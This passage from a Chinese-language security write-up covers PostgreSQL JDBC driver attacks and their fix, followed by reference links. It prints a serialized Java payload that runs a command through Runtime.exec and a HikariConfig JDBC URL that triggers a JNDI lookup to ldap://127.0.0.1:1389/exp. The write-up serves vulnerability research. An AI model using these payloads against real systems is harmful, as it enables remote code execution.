ltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB%2BAARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAAAAAAAdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX%2BAYIVOACAAB4cAAAAU3K%2Frq%2BAAAAMQAWAQA0b3JnL2FwYWNoZS93aWNrZXQvYmF0aWsvYnJpZGdlL1NWR0Jyb2tlbkxpbmtQcm92aWRlcgcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAAY8aW5pdD4BAAMoKVYBAARDb2RlDAAFAAYKAAQACAEAEWphdmEvbGFuZy9SdW50aW1lBwAKAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwADAANCgALAA4BABZvcGVuIC1hIENhbGN1bGF0b3IuYXBwCAAQAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAEgATCgALABQAIQACAAQAAAAAAAEAAQAFAAYAAQAHAAAAGgACAAEAAAAOKrcACbgADxIRtgAVV7EAAAAAAAB1cQB%2BABAAAAEayv66vgAAADQAEQEANW9yZy9hcGFjaGUvY29tbW9ucy9qYW0vcHJvdmlkZXIvSmFtU2VydmljZUZhY3RvcnlJbXBsBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEAClNvdXJjZUZpbGUBABpKYW1TZXJ2aWNlRmFjdG9yeUltcGwuamF2YQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKBXHmae48bUcYAQANQ29uc3RhbnRWYWx1ZQEABjxpbml0PgEAAygpVgwADAANCgAEAA4BAARDb2RlACEAAgAEAAAAAQAaAAcACAABAAsAAAACAAkAAQABAAwADQABABAAAAARAAEAAQAAAAUqtwAPsQAAAAAAAQAFAAAAAgAGcHQAAWFwdwEAeHEAfgANeA%3D%3D%0Abs.length%20%3D%201628%0Abs.offset%20%3D%200%0Amessage.content%20%3D%20%24bs%0Amessage.trustAllPackages%20%3D%20true%0Amessage.object.x%20%3D%20x
```

**[6] HikariConfig**

柯字辈师傅分享，利用 Properties 方式，走 HikariConfig 触发 JNDI，需要依赖 HikariCP。

```
jdbc:postgresql:///?socketFactory=com.zaxxer.hikari.HikariConfi&metricRegistry=ldap://127.0.0.1:1389/exp
```

# 漏洞修复

从Github提交记录中可以找到，在各个接口实例化时加上了期望类的判断。

懒得翻了，直接看师傅的图吧



参考文章：

https://su18.org/post/postgresql-jdbc-attack-and-stuff/

https://forum.butian.net/share/1339

https://www.freebuf.com/articles/web/438695.html

https://research.qianxin.com/archives/2414
